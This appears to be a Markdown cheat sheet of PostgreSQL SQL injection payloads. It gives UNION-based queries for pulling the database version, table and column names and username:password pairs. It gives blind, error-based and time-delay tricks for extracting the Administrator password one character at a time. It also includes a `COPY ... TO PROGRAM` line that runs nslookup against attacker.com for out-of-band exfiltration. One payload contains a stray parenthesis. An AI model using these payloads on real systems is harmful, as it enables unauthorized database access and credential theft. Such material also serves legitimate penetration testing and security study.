 

## PostgreSQL

### Retreaving Database version

```mysql
SELECT version()
```

**UNION Statement Context**
```
' UNION SELECT NULL, version() -- -
```

> **Note:** In UNION Statement we have to match the number of columns of first select statement so that's why we use one NULL in the payload.

### String Concatenation

```
SELECT username||':'||password FROM users
```

**UNION Statement Context**

```
' UNION SELECT NULL,username||':'||password) FROM users-- -
```

### Substring

```
SELECT SUBSTRING(password, 2,1) FROM users where username = 'administrator'
```

> **Note:** In the above query we only extract second character of Administrator users password with the length of one that's mean only one character at a time. SUBSTRING Function has a syntax like this `SUBSTRING(string , start position, total length)`

**In a blind SQLi Context where we have some difference in response**

```
' AND SELECT SUBSTRING((SELECT Password FROM Users Where Username = 'Administrator'),1,1) = FUZZ
```
> **Note:** Suppost we have a blind SQLi in which we have some difference in response like Content Length or any wellcome back message of successfull login etc. Using above query we add a True or False condition using `AND` keyword so when  Password of the Administrator user have a character equal to or FUZZ character then they shows us a welcome back message or different content length otherwise they didn't show us that.
> In FUZZ we have a dictionary that contain all alpha-numeric characters and symbols.

### Comments
```
-- comment
/* comment */
```

### Conditional Errors

```
1 = (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'a') THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```

**In SQLi Context**

```
' AND SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'a') THEN CAST(1/0 AS INTEGER) ELSE NULL END
```

### Time Delays

```
SELECT pg_sleep(10)
```

**Blind SQLi Context**

```
' AND SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'FUZZ') THEN pg_sleep(10) ELSE NULL END
```

### DNS Lookups

```
copy (SELECT '') to program 'nslookup attacker.com'
```

### Database Contents

**List all the tables**
```
 SELECT table_name FROM information_schema.tables
```

**USING UNION Statement**
```
' UNION  SELECT NULL,table_name FROM information_schema.tables -- -
```


**List all the columns in a Table**
```
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

**Using UNION Statement**
```
' UNION SELECT NULL, column_name FROM information_schema.columns where table_name = 'TABLE_NAME_HERE'
```